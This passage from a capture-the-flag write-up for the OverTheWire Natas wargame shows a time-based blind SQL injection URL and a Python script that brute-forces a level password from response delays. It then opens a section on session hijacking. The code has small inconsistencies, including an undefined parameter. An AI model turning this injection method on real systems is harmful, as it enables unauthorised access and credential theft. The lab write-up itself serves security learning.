 Notice that since SLEEP() does not carry a **"** we use the *always true* clause to close the **"** added by the server.


A crafted URL should look like this:

> http://natas15.natas.labs.overthewire.org/?username=natas16%22%20AND%20SUBSTRING(password,1,1)%20LIKE%20BINARY%20%22d%22%20AND%20SLEEP(320)%20AND%20%221%22=%221

#### Crafting the Attack:

The new script is:

```python
import requests
import string

def brute_force_password(LENGTH, AUTH, CHARS, SQL_URL1, SQL_URL2):
 password = ''
 for i in range(1, LENGTH+1):
 for j in range (len(CHARS)):
 r = requests.get( ( SQL_URL1 + str(i) + SQL_URL2 + CHARS[j] + SQL_URL3 ), auth=AUTH)
 time = r.elapsed.total_seconds()
 print("Position %d: trying %s... Time: %.3f" %(i, CHARS[j], time))
 #print r.url
 if time >= 9:
 password += CHARS[j]
 print("Password so far: " + password)
 break
 return password

if __name__ == '__main__':
 # authorization: login and password
 AUTH = ('natas17', '****************************')

 # BASE64 password and 32 bytes
 CHARS = string.ascii_letters + string.digits
 LENGTH = 32

 # crafted url
 SQL_URL1 = 'http://natas17.natas.labs.overthewire.org?username=natas18" AND SUBSTRING(password,'
 SQL_URL2 = ',1) LIKE BINARY "'
 SQL_URL3 = '" AND SLEEP(10) AND "1"="1'

 print(brute_force_password(LENGTH, AUTH, CHARS, SQL_URL1, SQL_URL2))
```

Around 15 minutes later, I got the password.



### Level 18: Hijacking Session ID



The 18th level starts with a login form, just like the levels before it. The source code is much more intricate though.


[Wargames]: http://overthewire.org/wargames/
[Natas]: http://overthewire.org/wargames/natas/
[robots.txt]: http://en.wikipedia.org/wiki/Robots_exclusion_standard
[referer]: http://en.wikipedia.org/wiki/HTTP_referer
[tampermonkey]: https://chrome.google.com/webstore/detail/tampermonkey/dhdgffkkebhmkfjojejmpbldmpobfkfo?hl=en
[modify-headers]: https://chrome.google.com/webstore/detail/modify-headers-for-google/innpjfdalfhpcoinfnehdnbkglpmogdi?hl=en-US
[edit this cookie]: http://www.editthiscookie.com/start/
[strrev]: http://php.net/manual/en/function.strrev.php
[passthru]: http://php.net/manual/en/function.passthru.php
[OS command injection]: https://www.owasp.org/index.php/OS_Command_Injection
[preg_match]: http://php.net/manual/en/function.preg-match.php
[readfile()]: http://php.net/manual/en/function.readfile.php
[system]: http://php.net/manual/en/function.system.php
[Burp Suite]: http://portswigger.net/burp/
[FireBug]: http://getfirebug.com/
[this is how you run it]: http://portswigger.net/burp/help/suite_gettingstarted.html
[SQL Injection]: https://www.owasp.org/index.php/SQL_Injection
[SQL wildcards and keywords]: http://www.w3schools.com/sql/sql_wildcards.asp
[SUBSTRING]: http://www.1keydata.com/sql/sql-substring.html
[request]: http://docs.python-requests.org/en/latest/user/quickstart/
[command substitution]: http://www.tldp.org/LDP/abs/html/commandsub.html
[sleep()]: http://dev.mysql.com/doc/refman/5.0/en/miscellaneous-functions.html#function_sleep
[is_numeric]: http://php.net/manual/en/function.is-numeric.php
[SESSION_ID]: http://en.wikipedia.org/wiki/Session_ID
[$_REQUEST]: http://php.net/manual/en/reserved.variables.request.php
[session_starts()]: http://php.net/manual/en/function.session-start.php
[source code is available]: https://github.com/mvonsteinkirch/CTFs-Gray-Hacker-and-PenTesting/tree/master/Web_Exploits